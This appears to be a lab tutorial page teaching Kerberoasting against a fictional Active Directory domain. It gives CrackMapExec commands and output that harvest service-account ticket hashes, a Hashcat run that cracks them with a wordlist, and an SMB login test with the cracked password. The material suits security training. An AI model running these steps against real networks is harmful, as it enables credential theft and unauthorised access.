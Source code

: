 # Finding Kerberoastable Accounts

The `Kerberoasting` attack aims to harvest TGS (Ticket Granting Service) Tickets from a user with servicePrincipalName (SPN) values, typically a service account. Any valid Active Directory account can request a TGS for any SPN account. Part of the ticket is encrypted with the account's NTLM password hash, which allows us to attempt to crack the password offline. To learn more about how this attack works, check out the Kerberoasting section of the [Active Directory Enumeration & Attacks](https://academy.hackthebox.com/module/details/143/) module.

To find the Kerberoastable accounts, we need to have a valid user in the domain, use the protocol `LDAP` with the option `--kerberoasting` followed by a file name, and specify the IP address of the DC as a target on CrackMapExec:

### **Kerberoasting Attack**

```shell-session
$ crackmapexec ldap dc01.inlanefreight.htb -u grace -p 'Inlanefreight01!' --kerberoasting kerberoasting.out

SMB         dc01.inlanefreight.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        dc01.inlanefreight.htb 389    DC01             [+] inlanefreight.htb\grace:Inlanefreight01!
LDAP        dc01.inlanefreight.htb 389    DC01             [*] Total of records returned 4
CRITICAL:impacket:CCache file is not found. Skipping...
LDAP        dc01.inlanefreight.htb 389    DC01             sAMAccountName: grace memberOf: CN=SQL Admins,CN=Users,DC=inlanefreight,DC=htb pwdLastSet: 2022-10-25 15:48:04.646233 lastLogon:2022-12-01 07:20:01.171413
LDAP        dc01.inlanefreight.htb 389    DC01             $krb5tgs$23$*grace$INLANEFREIGHT.HTB$inlanefreight.htb/grace*$ce19d59e7823310c7fb51920d24bd56c$[SNIP]
LDAP        dc01.inlanefreight.htb 389    DC01             sAMAccountName: peter memberOf: CN=Remote Management Users,CN=Builtin,DC=inlanefreight,DC=htb pwdLastSet: 2022-10-26 06:55:58.364988 lastLogon:2022-10-26 14:45:08.305940
LDAP        dc01.inlanefreight.htb 389    DC01             $krb5tgs$23$*peter$INLANEFREIGHT.HTB$inlanefreight.htb/peter*$eb2c68e3a5899ec32a9786b8ec58fe7d$[SNIP]
```

If there are any Kerberoastable accounts, CrackMapExec will display them along with the hash we need to attempt to crack offline. In our case, we will use the wordlist rockyou.txt to crack the password and the application [Hashcat](https://hashcat.net/hashcat/). For more on Hashcat usage, see the [Cracking Passwords with Hashcat](https://academy.hackthebox.com/module/details/20) module.

### **Cracking the Hash**

```shell-session
$ hashcat -m 13100 kerberoasting.out /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386

$krb5tgs$23$*peter$INLANEFREIGHT.HTB$inlanefreight.htb/peter*$026257d4f9aa58cd5c654295eac8255f$[SNIP]
```

Once we get the account's password, we need to verify if the account is still active. We can do this using the SMB protocol, as it will attempt to authenticate as a regular domain user or administrator account.

### **Testing the Account Credentials**

```shell-session
$ crackmapexec smb 10.129.203.121 -u peter -p Password123

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\peter:Password123
```
